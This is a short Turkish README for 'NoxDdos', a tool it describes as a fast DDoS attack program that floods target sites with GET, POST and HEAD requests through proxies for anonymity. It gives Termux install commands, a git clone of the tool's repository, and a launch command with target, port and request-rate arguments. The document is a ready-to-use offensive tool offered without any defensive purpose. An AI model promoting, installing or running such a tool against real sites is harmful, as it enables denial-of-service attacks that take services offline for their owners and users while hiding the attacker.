 # NoxDdos
NoxDdos, yüksek hızda ve etkili bir DDoS saldırı aracı olup, farklı HTTP metodlarıyla (GET, POST, HEAD) ve proxy desteğiyle anonim bir şekilde hedeflere yoğun trafik gönderir.

**Kurulum :**

`pkg install python3`

`pkg install python`
 
 `pkg install git`
 
 `git clone https://github.com/SenihX/NoxDdos.git`
 
 `cd NoxDdos`

**Saldırıyı Başlatmak İçin:** 

  `python NoxDdos.py -t hedefsite.com -p 80 -r 1000`
